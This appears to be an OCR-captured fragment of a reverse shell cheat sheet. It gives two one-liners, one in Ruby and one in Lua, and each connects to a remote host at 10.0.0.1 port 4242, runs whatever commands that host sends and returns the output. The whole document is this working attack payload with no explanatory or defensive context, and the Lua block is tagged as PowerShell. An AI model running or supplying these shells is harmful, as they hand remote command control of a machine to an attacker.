 ### ruby

```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### lua

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

